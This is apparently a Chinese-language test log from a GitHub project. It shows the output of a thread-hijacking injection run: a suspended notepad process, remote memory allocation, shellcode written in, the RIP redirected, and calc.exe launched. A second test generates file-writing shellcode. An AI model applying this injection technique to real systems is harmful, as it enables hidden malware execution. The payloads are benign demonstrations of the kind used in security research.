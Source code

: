 ```bash
[+] 已创建挂起的进程
  [+] 进程 ID: 12345
  [+] 线程 ID: 67890
  [+] 进程句柄: 0x00000000000002E0
  [+] 线程句柄: 0x00000000000002E4

[*] 步骤 2: 分配远程内存...
[+] 已分配远程内存: 0x000001E6DBB20000 (大小: 272 字节)

[*] 步骤 3: 写入 shellcode...
[+] 已写入 272 字节

[*] 步骤 4: 获取线程上下文...
[+] 已获取线程上下文 (x64)
  [*] 原始 RIP: 0x7FFB40368D70

[*] 步骤 5: 修改指令指针...
  [+] 新 RIP: 0x1E6DBB20000

[*] 步骤 6: 设置新的线程上下文...
[+] 已设置新的线程上下文

[*] 步骤 7: 恢复线程执行...
[+] 线程已恢复，shellcode 正在执行...

[+] 线程劫持成功！
[*] Shellcode 已在目标进程中执行
```

**结果**: ✅ **成功** - calc.exe 启动

**观察**：
- 记事本进程被创建并挂起
- 主线程的 RIP 从 `0x7FFB40368D70` (ntdll 范围) 被修改为 `0x1E6DBB20000` (shellcode 地址)
- 线程恢复后执行 shellcode，启动计算器
- 记事本进程未崩溃（因为 shellcode 调用 ExitProcess）

---

### 测试 2: 文件验证 Shellcode

**目的**: 完整功能验证（创建文件 + 写入内容）

**生成验证 Shellcode**:
```bash
$ gcc -o build/fileverify_shellcode.exe src/fileverify_shellcode.c
$ ./build/fileverify_shellcode.exe

[+] CreateFileA address: 0x00007FFB3F297240
[+] WriteFile address: 0x00007FFB3F297720
[+] CloseHandle address: 0x00007FFB3F296FA0
[+] ExitProcess address: 0x00007FFB3F2818A0

[+] Shellcode generated: 330 bytes
[+] Shellcode written to fileverify_shellcode.bin
```
